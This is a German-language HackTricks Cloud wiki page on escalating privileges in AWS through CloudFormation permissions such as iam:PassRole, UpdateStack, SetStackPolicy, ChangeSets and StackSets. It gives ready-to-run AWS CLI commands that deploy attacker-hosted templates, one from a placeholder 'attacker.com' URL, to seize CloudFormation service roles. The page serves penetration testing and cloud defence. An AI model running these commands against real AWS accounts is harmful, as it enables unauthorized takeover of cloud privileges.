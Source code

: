 # AWS - Cloudformation Privilege Escalation

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
{% endhint %}

## cloudformation

Für weitere Informationen zu Cloudformation siehe:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Ein Angreifer mit diesen Berechtigungen **kann Privilegien eskalieren**, indem er einen **CloudFormation-Stack** mit einer benutzerdefinierten Vorlage erstellt, die auf ihrem Server gehostet wird, um **Aktionen unter den Berechtigungen einer bestimmten Rolle auszuführen:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Auf der folgenden Seite finden Sie ein **Ausbeutungsbeispiel** mit der zusätzlichen Berechtigung **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potenzielle Auswirkung:** Privilege Escalation auf die spezifizierte CloudFormation-Service-Rolle.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In diesem Fall können Sie einen **bestehenden CloudFormation-Stack missbrauchen**, um ihn zu aktualisieren und Berechtigungen zu eskalieren, wie im vorherigen Szenario:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die Berechtigung `cloudformation:SetStackPolicy` kann verwendet werden, um sich selbst die Berechtigung `UpdateStack` über einen Stack zu geben und den Angriff durchzuführen.

**Mögliche Auswirkungen:** Privilege Escalation auf die angegebene CloudFormation-Service-Rolle.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Wenn Sie diese Berechtigung haben, aber **kein `iam:PassRole`**, können Sie immer noch die verwendeten Stacks **aktualisieren** und die **IAM-Rollen missbrauchen, die sie bereits angehängt haben**. Überprüfen Sie den vorherigen Abschnitt auf ein Beispiel für den Exploit (geben Sie einfach keine Rolle in der Aktualisierung an).

Die Berechtigung `cloudformation:SetStackPolicy` kann verwendet werden, um sich selbst die Berechtigung `UpdateStack` über einen Stack zu geben und den Angriff durchzuführen.

**Mögliche Auswirkungen:** Privilege Escalation auf die bereits angehängte CloudFormation-Service-Rolle.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ein Angreifer mit Berechtigungen zum **Weitergeben einer Rolle und zum Erstellen & Ausführen eines ChangeSets** kann **einen neuen CloudFormation-Stack erstellen/aktualisieren und die CloudFormation-Service-Rollen missbrauchen**, genauso wie bei CreateStack oder UpdateStack.

Der folgende Exploit ist eine **Variante des** [**CreateStack-Exploits**](./#iam-passrole-cloudformation-createstack) unter Verwendung der **ChangeSet-Berechtigungen** zum Erstellen eines Stacks.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die Berechtigung `cloudformation:SetStackPolicy` kann verwendet werden, um sich **`ChangeSet`-Berechtigungen zu geben** und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privilege Escalation zu CloudFormation-Service-Rollen.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dies ist ähnlich wie die vorherige Methode, ohne **IAM-Rollen zu übergeben**, daher können Sie einfach **bereits angehängte Rollen missbrauchen**, ändern Sie einfach den Parameter:
```
--change-set-type UPDATE
```
**Potenzielle Auswirkungen:** Privilege Escalation zum bereits angehängten CloudFormation-Service-Rolle.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ein Angreifer könnte diese Berechtigungen missbrauchen, um StackSets zu erstellen/aktualisieren und damit beliebige CloudFormation-Rollen zu missbrauchen.

**Potenzielle Auswirkungen:** Privilege Escalation zu CloudFormation-Service-Rollen.

### `cloudformation:UpdateStackSet`

Ein Angreifer könnte diese Berechtigung ohne die `PassRole`-Berechtigung missbrauchen, um StackSets zu aktualisieren und damit die angehängten CloudFormation-Rollen zu missbrauchen.

**Potenzielle Auswirkungen:** Privilege Escalation zu den angehängten CloudFormation-Rollen.

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Lernen Sie & üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>
{% endhint %}
